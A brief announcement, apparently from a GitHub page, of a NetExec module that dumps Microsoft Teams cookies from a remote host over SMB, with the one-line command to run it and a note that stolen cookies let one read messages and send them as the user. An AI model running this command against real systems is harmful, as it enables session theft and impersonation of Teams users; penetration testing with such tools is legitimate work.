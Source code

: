 # Steal Microsoft Teams Cookies

### New NetExec module to dump Microsoft Teams cookies thanks to @KuiilSec's contribution. 

### You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.

    nxc smb <ip> -u user -p pass -M teams_localdb

